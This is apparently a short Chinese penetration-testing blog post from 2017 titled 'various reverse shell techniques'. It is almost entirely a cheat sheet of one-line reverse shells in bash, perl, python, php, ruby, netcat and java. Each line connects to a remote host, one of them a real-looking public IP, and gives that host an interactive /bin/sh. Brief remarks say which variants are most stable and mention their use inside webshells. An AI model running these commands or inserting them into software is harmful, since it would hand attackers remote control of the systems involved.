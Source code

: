 ```yaml
---
title: 各种反弹shell姿势
date: 2017-09-11 17:51:45
tags: 渗透
---
```


除以下介绍的一句话反弹shell姿势外，还有一种back.py反弹，推荐
bash版本，注意修改端口

    bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

perl版本

    perl -e 'use Socket;$i="103.59.216.27";$p=18888;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

python版本，推荐，较稳定

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

php版本，某些PHP大马中有集成此功能

    php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

ruby版本

    ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

nc版本

    nc -e /bin/sh 10.0.0.1 1234
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
    nc x.x.x.x 8888|/bin/sh|nc x.x.x.x 9999

java版本，JSPSPY中有集成，比较稳定，推荐

    r = Runtime.getRuntime() p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]) p.waitFor()

